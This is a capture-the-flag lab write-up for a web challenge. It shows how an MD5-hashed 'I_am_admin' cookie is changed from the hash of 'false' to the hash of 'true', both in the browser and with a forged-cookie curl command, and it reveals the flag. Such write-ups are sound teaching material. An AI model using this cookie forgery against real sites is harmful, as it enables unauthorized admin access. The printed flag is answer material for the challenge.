 # <span style="text-decoration: underline;">Cookies</span>

- Tags : `hash`, `md5`, `cookies`, `storage`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>

___


# <span style="text-decoration: underline">problem</span>

For a long time webadministrator used [`browser cookies`](https://en.wikipedia.org/wiki/HTTP_cookie) to store many different information and states, including the login information and state. A cookie is generally created by the `server` and is stored in the users (clients) `browser` and during each `http` request the cookies are sent inside the [`http header`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers). Cookies are helpfull in many ways but if badly managed then they could become vulerable.

When we open our developper tool in `firefox` web browser on our domain `http://192.168.1.23/?page=signin` we see the following

> ![signin page cookies](/.resources/images/cookies_signin_page.png)

We can see the

- Name : `I_am_admin`
- Value : `68934a3e9455fa72420237eb05902327`

# <span style="text-decoration: underline">Solution</span>

## Using the browser

The value looks like an `md5` **hash**.  We can also use [this](https://hashes.com/en/tools/hash_identifier) kind of online took to findout the type of the `hash`. We can easily decrypt this **hash** suing online tools such as [md5decrypt.net](https://md5decrypt.net/en/) or [www.md5online.org](https://www.md5online.org/md5-decrypt.html). And when we decrypt it we know the **hash** is of the word **`false`**. We can also verify it using the `cli` tool `md5sum on **Linux** or `md5` on MacOs (have no idea for windows)

```bash
echo -n "false" | md5sum ## The -n means no new line at the end
68934a3e9455fa72420237eb05902327  -
```

By this we can understand that the stat of `I_am_admin` is set to `false`, so if we set it to **`true`** we can be considered as logged in a `I_am_admin`.
To do that all we need is a `md5` **hash** of the word `true` and change the cookies `Value` toi the new **hash**

##### Get the `md5` hash of the word `true`

```bash
echo -n "true"  | md5sum ## The -n means no new line at the end
b326b5062b2f0e69046810717534cb09  -
```

so after changing the `value` of the cookie it looks as following

> ![modified cookie](/.resources/images/cookies_signin_page_modified_cookie.png)


After changing the cookie and refreshing the web page we get the following popup

> ![cookie flag](/.resources/images/cookie_flag.png)

```text
Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Using `Curl`

We can do the same operation we did in the browser using `curl`. all we have to do is specify the custom coookie **value** !

```bash
$ curl -s  --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09" http://192.168.1.17/  | grep -i flag

<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
```

And this gives us the flag!

!> Note that even though the `flag` was show by a **js** code and **curl** do not execute **js** we ware still able to get the `flag` using **curl** because it was **hard coded** on the html and this might not be the case on modern application where application might do a get request upon the **js** code execution and not befor to retreav the reseult.

# <span style="text-decoration: underline">How to avoid the problem</span>

There are many ways to solve this problem. In modern days we do not use this kind of ways to authenticate and it is reasonable to do so.

# <span style="text-decoration: underline">Flag</span>

```text
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```